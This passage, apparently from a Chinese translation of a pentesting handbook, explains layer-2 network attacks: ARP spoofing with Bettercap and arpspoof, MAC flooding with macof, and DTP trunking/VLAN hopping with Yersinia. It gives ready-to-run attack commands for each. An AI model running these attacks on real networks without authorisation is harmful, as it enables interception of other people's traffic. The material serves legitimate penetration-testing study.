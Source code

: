 ### ARP 欺骗
ARP 欺骗包括发送无偿的 ARPResponses 以指示机器的 IP 具有我们设备的 MAC。然后，受害者将更改 ARP 表，并在每次想要联系被欺骗的 IP 时联系我们的机器。
#### **Bettercap**
```
arp.spoof on
set arp.spoof.targets <IP> #Specific targets to ARP spoof (default=<entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
set arp.spoof.internal true #If true, local connections among computers of the network will be spoofed, otherwise only connections going to and coming from the Internet (default=false)
```

#### **Arpspoof**
```
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```

### MAC 泛洪 - CAM 溢出

溢出交换机的 CAM 表，发送大量具有不同源 mac 地址的数据包。当 CAM 表已满时，交换机开始像集线器一样运行（广播所有流量）。
```
macof -i <interface>
```
在现代交换机中，此漏洞已修复。

### 802.1Q VLAN / DTP 攻击

#### Dynamic Trunking 动态中继
动态中继协议 （DTP） 设计为链路层协议，以促进自动中继系统，允许交换机自动选择中继模式（中继）或非中继模式的端口。DTP 的部署通常被视为网络设计欠佳的迹象，这凸显了仅在必要时手动配置中继并确保正确文档的重要性。

默认情况下，交换机端口设置为在动态自动模式下运行，这意味着如果相邻交换机提示，它们已准备好启动中继。当渗透测试者或攻击者连接到交换机并发送 DTP 理想帧，迫使端口进入中继模式时，就会出现安全问题。此操作使攻击者能够通过 STP 帧分析枚举 VLAN，并通过设置虚拟接口来规避 VLAN 分段。
默认情况下，攻击者可以利用许多交换机中存在 DTP 来模拟交换机的行为，从而访问所有 VLAN 上的流量。脚本 [_**dtpscan.sh**_](https://github.com/commonexploits/dtpscan) 用于监控接口，显示交换机是处于默认模式、中继模式、动态模式、自动模式还是访问模式，后者是唯一不受 VLAN 跳跃攻击影响的配置。此工具评估交换机的漏洞状态。

如果发现网络漏洞，可以使用 Yersinia 工具通过 DTP 协议“启用中继”，从而可以观察来自所有 VLAN 的数据包。
```
apt-get install yersinia #Installation
sudo apt install kali-linux-large #Another way to install it in Kali
yersinia -I #Interactive mode
#In interactive mode you will need to select a interface first
#Then, you can select the protocol to attack using letter "g"
#Finally, you can select the attack using letter "x"

yersinia -G #For graphic mode
```
![](https://book.hacktricks.xyz/~gitbook/image?url=https:%2F%2F129538173-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-L_2uGJGU7AVNRcqRvEi%252Fuploads%252FHFo4KympSBlYmczt3NGa%252Fimage.png%3Falt=media%26token=49ed09d2-b172-4f51-93ed-e2ddec01a085&width=768&dpr=4&quality=100&sign=4e56216fe93a121bb97e57d11d712785c1ad2914af57c1509393e04b17fbb551)

